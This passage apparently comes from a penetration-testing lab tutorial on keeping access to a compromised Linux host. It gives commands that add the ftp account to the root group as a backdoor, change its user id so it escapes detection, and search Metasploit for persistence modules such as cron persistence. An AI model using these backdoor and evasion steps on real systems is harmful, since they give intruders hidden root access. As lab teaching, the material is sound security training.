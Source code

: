 The other thing that I would recommend doing is providing the ftp user account with administrative or root privileges.

List all the groups that the root user is a part of, you can see it's part of the root group.

```
root@victim-1:~# groups root
root
```

Add the ftp account into the root group, then it will inherit the permissions associated with the root group, which pretty much gives us a root access.

`-aG`: add group, and then we want to add to the root group.

```
root@victim-1:~# usermod -aG root ftp
root@victim-1:~# groups ftp
```

ftp is part of the root group.

What we can do now in this particular case is utilize this backdoor user to authenticate legitimately to the target system via SSH. Whenever we need to gain access to the target system. And we're going to have administrative privileges because we've just added the user account to the root group.

Modify the backdoor user's user id, to make it look like it just wasn't created, or that it just was created a few seconds or a few minutes ago or recently, because the accounts that have just been created will get a user id right over here. That reflects the fact that it was created the most recently.

`-u`: Specify the user id we want. A user id like 15.

And then specify the account name `ftp`.

```
root@victim-1:~# usermod -u 15 ftp
root@victim-1:~# cat /etc/passwd
```

It now has the user id of 15. And then, we can modify the group that it belongs to or the group id to reflect that.

The whole objective here is to make the user account look as clandertine as possible in order to avoid detection.

Let's take a loot at some of the persistence modules that we can use for Linux targets.

Terminate this channel. Put the meterpreter session in the background.

```
search platform:linux persistence
```

[Cron Persistence](https://www.rapid7.com/db/modules/exploit/linux/local/cron_persistence/)

Cron Persistence

This module will create a cron or crontab entry to execute a payload. The module includes the ability to automatically clean up those entries to prevent multiple executions. syslog will get a copy of the cron entry.
